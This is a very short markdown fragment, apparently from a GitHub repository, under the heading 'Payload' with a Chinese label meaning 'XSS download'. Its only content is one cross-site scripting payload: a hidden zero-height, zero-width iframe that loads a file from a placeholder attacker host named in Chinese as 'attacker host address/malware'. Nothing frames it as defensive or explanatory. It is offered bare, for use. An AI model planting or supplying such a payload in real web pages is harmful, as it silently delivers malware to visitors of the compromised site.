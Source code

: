 ## Payload

XSS下载：

```javascript
<iframe src="http://攻击者主机地址/恶意软件" height="0" width="0"></iframe>
```
